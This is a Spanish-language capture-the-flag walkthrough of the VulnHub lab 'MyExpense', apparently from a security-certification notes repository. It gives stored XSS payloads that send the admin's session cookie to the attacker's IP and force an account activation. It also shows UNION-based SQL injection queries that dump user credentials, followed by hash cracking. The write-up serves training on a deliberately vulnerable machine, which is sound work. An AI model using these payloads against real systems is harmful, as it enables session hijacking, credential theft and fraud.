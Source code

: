![image](https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/assets/137443771/2c1910a6-f323-456e-9a50-d83308355f41)# MyExpense

- Máquina de vulnhub, para practicar XSS y SQL Injection  
- Descarga: <a href="https://www.vulnhub.com/entry/myexpense-1,405/">MyExpense</a>

### Antecedentes
Tenemos un usuario llamado Samuel, que ha sido despedido de la empresa y le deben todavía 750€ de un viaje que hizo. Para cobrarlo, debemos hacer la solicitud a través de la web pero nuestro usuario ha sido eliminado o deshabilitado. Nuestra misión es intentar loguearnos y conseguir cobrar esa cantidad.  
Your credentials were: samuel/fzghn4lw

### Accediendo a la web
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense1.jpg?raw=true">
Introducimos la url en el navegador y vamos al apartado para crear una cuenta. El botón de crear cuenta está bloqueado, así que inspeccionamos el codigo fuente y desbloqueamos el botón eliminando la línea **disabled**

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense2.jpg?raw=true">
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense3.jpg?raw=true">

Intentamos hacer login pero nuestra cuenta está deshabilitada

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense4.jpg?raw=true">

### Fuzzing

Hacemos fuzzing con gobuster y encontramos la carpeta admin

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense5.jpg?raw=true">

seguimos fuzzeando y encontramos admin.php y accedemos. Vemos que aparece un panel con los datos de usuarios, y Samuel y los usuarios creados están deshabilitados. no se pueden deshabilitar. solo puede un administrador.

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense6.jpg?raw=true">


### XSS 
En formulario de creación de usuarios se ha detectado que se puede hacer XSS, con lo que con suerte, podremos robar la cookie de sesión del Administrador.  

Ponemos a la escucha con netcat en kali:  
```
python3 -m http.server 80
```

Introducimos el siguiente codigo en el formulario, por ejemplo en el campo de apellido:
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense7.jpg?raw=true">
```
#XSS Payload
<script>img = new Image(); img.src = "http://192.168.43.57/a.php?"+document.cookie;</script>
```
Hemos recibido la cookie!
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense8.jpg?raw=true">

Pero no nos sirve porque no puede estar el administrador logueado en 2 equipos distintos a la vez. Así que hay que forzar a que el administrador utilice el botón para activar el usuario.  
Si nos fijamos al clicar el boton, es simplemente una acción que lleva a una URL, probaremos a meter esa url en el código XSS
Para ello volvemos a crear otro usuario y en el apellido, por ejemplo. Metemos el siguiente código:  

```
# XSS Payload
<script>document.write('<img src="http://192.168.56.104/admin/admin.php?id=11&status=active"/>');</script>

```
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense9.jpg?raw=true">
esperamos un poco y voilá! se activó!
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense10.jpg?raw=true">

### Enviando la solicutid de pago
Una vez en el perfil de Samuel, aceptamos el envío de la solicitud de los 750€. Parece que el manager Manon Riviere debe aprobar esto. para ello deberemos robarle la sesión.  
Parece que tienen un chat en común, así que aprovecharemos el textbox para hacer un robo de sesión con cookies.  
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense11.jpg?raw=true">
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense12.jpg?raw=true">

Una vez en el perfil, aceptamos la solicitud.
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense13.jpg?raw=true">

### SQL Injection
La solicitud está aceptada pero tiene que ser aprobada por un financial aprover, que el financial aprover de este usuario es: Paul Baudouin.
En Rennes, vemos lo que parece una consulta a una BBDD, y en la URL también parece indicarlo. probaremos una inyección SQL
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense14.jpg?raw=true">

lo primero es determinar el numero de columnas
```
ORDER BY 2
```
Después determinar las bases de datos, tablas, columnas
```
UNION SELECT schema_name,null FROM information_schema.schemata-- -
UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema="myexpense"-- -
UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema="myexpense" and table_name="user"-- -
UNION SELECT username, password from user-- -

```
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense15.jpg?raw=true">
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense16.jpg?raw=true">

## Decrypt password
necesitamos desenccriptar la password de Paul Baudouin. nos dirigimos a cualquiera de estas webs:  
<a href="https://crackstation.net/">Crackstation</a>
<a href="https://hashes.com/en/decrypt/hash">Hashes</a>  

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense17.jpg?raw=true">

## Final
Ya solo queda aprobar la derrama desde el usuario financial aprover.
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense18.jpg?raw=true">


